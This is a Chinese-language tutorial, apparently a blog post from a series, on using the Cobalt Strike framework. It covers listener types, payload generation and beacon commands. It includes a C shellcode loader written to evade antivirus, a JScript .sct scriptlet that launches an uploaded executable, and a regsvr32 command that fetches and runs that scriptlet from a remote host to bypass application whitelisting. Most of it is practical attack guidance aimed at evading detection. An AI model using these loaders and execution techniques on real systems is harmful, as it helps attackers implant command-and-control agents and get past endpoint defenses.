









# 0x00 Listeners介绍

在本版本Cobalt Strike 3.12中 提供了如图 8种Listeners(监听器)



>windows/beacon_dns/reverse_dns_txt
windows/beacon_dns/reverse_http
windows/beacon_http/reverse_http
windows/beacon_https/reverse_https
windows/beacon_smb/bind_pipe
windows/foreign/reverse_http
windows/foreign/reverse_https
windows/foreign/reverse_tcp

* beacon_x 系列为Cobalt Strike 自身，包括dns,http,https,smb四种方式的监听器
* foreign 系列为外部监听器 通常与MSF或者Armitage联动。

值得一提是在Cobalt Strike 3.13版本增加了一个新的Listeners(windows/beacon_tcp/bind_tcp)  它支持linuxSSH会话。本文不使用3.13版本具体更新内容可以观看[官网](https://blog.cobaltstrike.com/2019/01/02/cobalt-strike-3-13-why-do-we-argue/)


# 0x01 创建一个服务

创建一个服务首先配置一个监听器 本文介绍http(https) 



选择 Packages>Windows Executable



其中可以生成 EXE,DLL 32位系统或者64位，但是大多数我们生成Payload来做免杀



上线成功 在 Event Log处 出现上线信息 一个团队当然离不开交流 当你在Event Log直接输出内容后 全团队可见 ，输入`/msg name xxx` 给指定用户

# 0x02 Beacon

右键目标`interact`来使用`Beacon`，我们用它来执行各种命令，在第一课已经讲到
`help` 获得所有命令及其简介 `help 具体命令` 来获得详细用法。在Cobalt Strike中它的心跳默认是60s 这会让我们执行的命令响应很慢，在下载文件面前更为明显，所以我在测试时会把时间降低一点 。大家可以根据实战环境来调节，建议不要太快，不然流量会相对明显。


在这里我`sleep 5` 同时介绍在beacon中 如果想对目标进行命令管理 需要在前面加上shell 如`shell whoami` 非常简单

# 0x03 Payload Generator

用 Packages>Windows Executable生成的服务很容易被AV干掉，所以我们一般生成shellcode 然后自己写个加载器加载 

打开Packages>Payload Generator 


不得不说Cobalt Strike非常温馨，给我们提供了各个语言的Payload 后期我们讲会讲到如何运用Payload来做一些简单的免杀，这里我们使用 C语言来写一个简单的加载器运行我们的Payload ，C语言写这些确实很简单。

* 用到的编译器是vc++6.0

```
#include <windows.h>
#include <stdio.h>
#pragma comment(linker,"/subsystem:\"windows\" /entry:\"mainCRTStartup\"")

unsigned char shellcode[] =
"\xfc\xe8\x89\x00\x00\x00\x60\x89\xe5\x31\xd2\x64\x8b\x52\x30\x8b"
"\x52\x0c\x8b\x52\x14\x8b\x72\x28\x0f\xb7\x4a\x26\x31\xff\x31\xc0"
"\xac\x3c\x61\x7c\x02\x2c\x20\xc1\xcf\x0d\x01\xc7\xe2\xf0\x52\x57";

void main()
{
	((void(*)(void))&shellcode)();
}
```

编译记得使用Release模式而不是Debug 生成，其中shellcode加载器方法来自于网络，后期关于免杀将会讲到其他，本文顺带将一下白名单Regsvr32执行。

# 0x04 白名单执行

讲到payload生成服务 不得不讲下关于生成dll文件 利用window的Regsvr32程序

## Regsvr32简介：

Regsvr32命令用于注册COM组件，是 Windows 系统提供的用来向系统注册控件或者卸载控件的命令，以命令行方式运行。WinXP及以上系统的regsvr32.exe在windows\system32文件夹下；2000系统的regsvr32.exe在winnt\system32文件夹下。下面是常用参数，其他参数请见[链接](https://support.microsoft.com/en-us/help/249873/how-to-use-the-regsvr32-tool-and-troubleshoot-regsvr32-error-messages )

```
/u 取消注册

/s 指定 regsvr32 安静运行，在成功注册/反注册DLL文件的前提下不显示结果提示框。

/n 指定不调用 DllRegisterServer。此选项必须与 /i 共同使用。

/i:cmdline 调用 DllInstall 将它传递到可选的 [cmdline]。

```
## 第一种

命令 `regsvr32  c:\artifact.dll` 

 

## 第二种
通过 sct 远程执行绕过防病毒这里前提需要将 exe 文件上传到目标主机 本文上传到c:\test.exe
payload.sct文件内容如下:

```
<?XML version="1.0"?>
<scriptlet>
<registration         
progid="Pentest"       
classid="{F0001111-0000-0000-0000-0000FEEDACDC}" >
<script language="JScript">
 
<![CDATA[   
var r = new ActiveXObject("WScript.Shell").Run("cmd /k c:\\test.exe"); 
]]>
 
</script>
</registration>
</scriptlet>
```

上面代码可以上传到Github等白名单域名 本文使用Cobalt Strike自带的服务来搭建 顺便介绍功能

打开>Web Drive-by>Host File 

 

然后执行

`regsvr32 /u /n /s /i:http://192.168.130.130:80/payload.sct scrobj.dll`

执行效果目标机 

 


# 0x05 文末

本章感觉有点简单， 在介绍监听器与payload的时候顺带提了下免杀，循序渐进把CS的功能都介绍下，让每一篇都有一些营养，由于本人笔记本不行开2个虚拟机都卡了，所以靶机有所混合，大家不要介意。这次环境的搭建浪费了很多时间。（用时5小时）

### 本文如有错误，请及时提醒，以免误导他人
